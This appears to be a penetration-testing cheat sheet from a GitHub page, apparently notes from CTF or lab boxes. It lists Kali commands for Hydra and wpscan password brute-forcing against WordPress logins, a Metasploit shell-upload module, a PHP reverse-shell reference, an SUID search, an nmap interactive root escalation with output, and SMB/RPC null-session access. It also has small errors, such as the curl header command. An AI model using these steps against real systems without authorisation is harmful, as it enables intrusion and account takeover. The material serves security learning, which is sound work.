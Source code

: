   ```
  Microsoft Windows [Version 10.0.14393]
  (c) 2016 Microsoft Corporation. All rights reserved.

  C:\Windows\system32>
  ```
* To view files on VHD drie, use `7z l <FILENAME>.vhd`
  ```
  root@kali:/mnt/smb# 7z l <VHD_NAME>.vhd
  7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
  p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-5200U CPU @ 2.20GHz (306D4),ASM,AES-NI)
  Scanning the drive for archives:
  1 file, 5418299392 bytes (5168 MiB)
  Listing archive: <VHD_NAME>.vhd
  ```
* To mount VHD drive on Linux use, very useful for forensics
  ```
  root@kali:/mnt/smb# guestmount --add <VHD_NAME>.vhd --inspector -ro -v /mnt/vhd
  ```
* If Webserver is running, we can find the Server version using
  * `curl --header <SERVER_IP>`
* If we want to find exploit of a particular version, use the command
  * `searchsploit apache 1.2.4`
* If /wp-login.php is found in the Vulnerability scanning, it can be Wordpress site.
* Use Burpsuite to see login data
* Use Hydra to bruteforce username
  * `hydra -V -l wordlist.dic -p 123 <HOST_IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username`
* Use wpscan tool to scan Wordpress Website
  * `gem install wpscan`
  * `wpscan --url <HOST_IP> --usernames <USERNAME_FOUND> --passwords wordlist.dic`
* We can use metasploit to exploit the server
  * use exploit/unix/webapp/wp_admin_shell_upload -- Does not work
  * pentestmonkey.net/tools/web-shells/php-reverse-shell
* Command to get Bash shell
  * `python -c "import pty;pty.spawn('/bin/bash')"`
* Privilige Escalation: Now if we found the hash for the priviliged user, we can use crackstation.net/ to get the password.
* To find all the files which current user can interact use the command
  * `find / -perm -4000 2>/dev/null`
* If there is any program which we can get to use as root, we need to target that.
  ```
  robot@linux:/$ nmap --interactive
  nmap --interactive
  Starting nmap V. 3.81 ( www.insecure.org/nmap/ )
  Welcome to Interactive Mode -- press h <enter> for help
  nmap> !sh
  !sh
  # id
  id
  uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
  ```
* If we got access to VIM (MAN Pages), we can run `!<Command>` to execute directly in the shell.
* If we want to run old 16bit or 32bit windows program, we can use www.dosbox.com, an emulator which can be installed on Windows.
* If RPC is open, we can use the following to login
  * `rpcclient -U "" <HOST_IP>` -- If this is success without password, we can login using null session.
* If SMB is open, we can use the following command to try connecting
  * `smbclient -L \\\\<HOST_IP>`
